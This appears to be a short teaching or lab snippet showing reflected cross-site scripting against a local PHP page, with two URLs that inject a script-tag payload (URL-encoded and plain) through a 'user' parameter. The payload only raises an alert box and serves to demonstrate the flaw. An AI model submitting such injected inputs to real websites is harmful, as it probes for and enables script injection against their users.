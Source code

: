 # Reflected XSS - Example 2
`http://localhost:8000/hello.php?user=%3Cscript%3Ealert(%27XSS%27);%3C/script%3E`
`http://localhost:8000/hello.php?user=<script>alert('XSS');</script>`
